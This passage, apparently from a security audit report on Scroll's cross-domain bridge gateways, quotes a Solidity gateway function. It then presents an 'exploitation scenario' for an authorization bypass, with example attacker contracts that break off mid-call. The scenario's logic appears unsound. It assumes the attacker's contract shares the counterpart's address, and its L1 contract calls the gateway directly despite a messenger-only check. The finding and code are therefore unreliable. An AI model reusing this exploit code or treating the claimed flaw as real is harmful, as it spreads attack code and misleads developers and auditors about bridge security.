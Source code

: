 ```solidity
// File: /home/ubuntu/scroll-contracts/src/batch-bridge/L2BatchBridgeGateway.sol (Lines 142-156)
function finalizeBatchDeposit(
    address l1Token,
    address l2Token,
    uint256 batchIndex,
    bytes32 hash
) external onlyMessenger {
    if (counterpart != IL2ScrollMessenger(messenger).xDomainMessageSender()) {
        revert ErrorMessageSenderNotCounterpart();
    }
    
    // Token mapping and state updates...
}
```

This function checks that the cross-domain message sender is the expected counterpart contract.

## 4. Exploitation Scenarios

### 4.1 Gateway Authorization Bypass

#### Scenario Details:

1. Attacker deploys `MaliciousL2Contract` on L2
2. Attacker deploys `MaliciousL1Contract` on L1
3. `MaliciousL2Contract` sends a message to L1 targeting `MaliciousL1Contract`
4. When `relayMessageWithProof` executes, `xDomainMessageSender` is set to `MaliciousL2Contract`
5. `MaliciousL1Contract` calls a function on a gateway contract that checks `xDomainMessageSender`
6. If `MaliciousL2Contract` has the same address as the expected counterpart, the check passes
7. The gateway executes privileged operations, such as token transfers

#### Example Exploit Code:

```solidity
// MaliciousL2Contract.sol
contract MaliciousL2Contract {
    IL2ScrollMessenger public messenger;
    
    constructor(address _messenger) {
        messenger = IL2ScrollMessenger(_messenger);
    }
    
    function sendAttackMessage(address maliciousL1Contract) external {
        bytes memory message = abi.encodeWithSignature("execute()");
        messenger.sendMessage(maliciousL1Contract, 0, message, 1000000);
    }
}

// MaliciousL1Contract.sol
contract MaliciousL1Contract {
    IL1ERC20Gateway public gateway;
    
    constructor(address _gateway) {
        gateway = IL1ERC20Gateway(_gateway);
    }
    
    function execute() external {
        // During this call, xDomainMessageSender is set to MaliciousL2Contract
        
        // Call finalizeWithdrawERC20 on the gateway
        gateway.finalizeWithdrawERC20(
            address(0x123), // L1Token
            address(0x456), // L2Token
            address(0x789), // from
```